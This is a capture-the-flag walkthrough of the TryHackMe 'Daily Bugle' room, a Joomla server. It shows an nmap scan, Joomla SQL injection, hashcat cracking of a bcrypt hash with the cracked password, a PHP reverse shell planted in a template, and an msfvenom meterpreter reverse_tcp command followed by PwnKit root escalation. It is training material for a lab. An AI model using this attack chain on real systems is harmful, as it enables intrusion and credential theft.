







# [Daily Bugle](https://tryhackme.com/room/dailybugle) #
Description: Spiderman themed box on Joomla CMS

## Recon & Enumeration
Begin with nmap scan: `nmap -sS -A 10.10.61.93`
```
Nmap scan report for 10.10.61.93
Host is up (0.35s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/30%OT=22%CT=1%CU=40150%PV=Y%DS=4%DC=T%G=Y%TM=62E53C5
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%TS=A)
OS:OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505
OS:ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
OS:ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)
```

From the nmap scan, we learnt that there is a web server running on port 80, most likey powered by Joomla on the backend.\
Navigating to port 80, the landing page gives us our first answer.



Next we tried to enumerate the website and the software version. \
A quick googling pointed us to the path for joomla.xml file where we can find the Joomla version.



## Exploitation
We found that this version of Joomla is vulnerable to SQL injection - [CVE-2017-8917](https://www.exploit-db.com/exploits/42033). \
From the CVE number, we were able to find a python script for the exploit - [Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla). \
Using the script, we managed to extract the user 'jonah' from the database. \
The password hash is prefixed with `$2y$`, indicating that it was encrpyted using bcrypt.

We saved the password hash into a file and ran hashcat with the following command:
```
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Hashcat managed to crack the password relatively quickly.



We were able to login to the Joomla admin panel using the credentials jonah:spiderman123\
After poking around the admin panel, we found the index.php file of the current template.\
This was where we injected our php reverse shell payload, giving us initial access to the machine.



## Escalate privileges
We were logged in as apache which is a low privileged user.


To find a privilege escalation vector, we transferred linpeas from our attacker machine and ran the script. \
The linpeas output showed us that the machine is vulnerable to CVE-2021-4034. \
Searching for the CVE number, we found a [metasploit module](https://packetstormsecurity.com/files/166196/Polkit-pkexec-Local-Privilege-Escalation.html) for this vulnerability. 



In order to switch over to metasploit, we used msfvenom to generate a meterpreter payload and uploaded the payload to the victim machine.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Port) -f elf > shell.elf
```


## Gaining root

Using the metasploit module exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec, we were able to gain root access.



With root, we could easily find and output the flags to complete the room.

